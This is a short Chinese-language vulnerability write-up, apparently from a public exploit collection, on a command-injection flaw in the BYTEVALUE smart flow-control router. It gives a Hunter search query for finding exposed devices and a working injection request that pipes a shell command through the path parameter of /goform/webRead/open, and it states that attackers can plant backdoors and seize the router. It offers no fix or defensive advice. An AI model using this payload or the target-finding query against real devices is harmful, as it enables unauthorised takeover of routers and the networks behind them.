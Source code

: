 # 百为智能流控路由器存在命令执行漏洞

# 一、漏洞简介
百为智能流控路由器/goform/webRead/open 路由的 ?path 参数存在有回显的命令注入漏洞。攻击者可通过该漏洞在服务器端执行命令，写入后门，获取服务器权限，从而获取路由器权限。

# 二、影响版本
+ 百为智能流控路由器

# 三、资产测绘
+ hunter`app.name=="BYTEVALUE 百为流控 Router"`
+ 特征

![1700147076639-85e36dbb-4503-4fdf-858e-89f5a189d32e.png](./img/GCwyGnZtM0ZUPa42/1700147076639-85e36dbb-4503-4fdf-858e-89f5a189d32e-995996.png)

# 四、漏洞复现
```plain
/goform/webRead/open/?path=|ip addr
```

![1700147106226-ff23fa04-e5ee-4cd1-8509-e02d77fcc6f2.png](./img/GCwyGnZtM0ZUPa42/1700147106226-ff23fa04-e5ee-4cd1-8509-e02d77fcc6f2-499887.png)

![1700147133055-a0fdb659-bf46-4dc4-88f0-3eaf2a5e9be4.png](./img/GCwyGnZtM0ZUPa42/1700147133055-a0fdb659-bf46-4dc4-88f0-3eaf2a5e9be4-956103.png)



> 更新: 2024-02-29 23:57:13  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ig5lw85h3w0ygdfh>